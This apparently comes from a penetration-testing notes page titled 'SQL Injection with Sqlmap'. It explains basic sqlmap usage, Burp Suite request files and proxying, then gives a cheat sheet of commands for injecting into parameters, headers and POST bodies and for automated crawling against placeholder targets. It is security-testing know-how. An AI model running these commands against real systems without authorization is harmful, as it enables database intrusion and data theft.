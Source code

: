 ```yaml
---
title: SQL Injection with Sqlmap
description: SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. This page provides how to inject SQL using sqlmap.
tags:
    - Database
    - Reverse Shell
    - SQL Injection
    - Web
refs:
date: 2024-02-08
draft: false
---
```


## Basic Usage

```sh
# GET request
sqlmap -u "http://<target-ip>/?search=test"
```

### Using Burp Suite Request File

We can specify a request file which is downloaded from **Burp Suite**.  
In Burp Suite, right-click on the HTTP request header screen, then click **Save Item** to download the request file. We can use it with SQLmap.
Add the **"-r"** flag as below.

```sh
sqlmap -r request.txt
```

In addition, we can see payloads to be tested in Burp Suite by setting the Burp proxy IP address to the **`--proxy`** flag.

```sh
# --proxy: Set proxy URL e.g. we can inspect requests in BurpSuite by port 8080 (default port for BurpSuite)
sqlmap -u "https://example.com/?q=test" --proxy http://127.0.0.1:8080
```

<br />

## Cheat Sheet

### Basic

```sh
sqlmap -u "https://example.com/?q=test"

# Specific parameter
sqlmap -u "https://example.com/?q=test" -p q

# Header param injection
sqlmap -u "https://example.com/" --headers "X-Forwarded-For: 1*"

# POST body
sqlmap -u "https://example.com/" --data="username=test&password=test"

# Automate
sqlmap -u https://example.com --crawl 2
# Batch mode
sqlmap -u https://example.com --crawl 2 --batch
```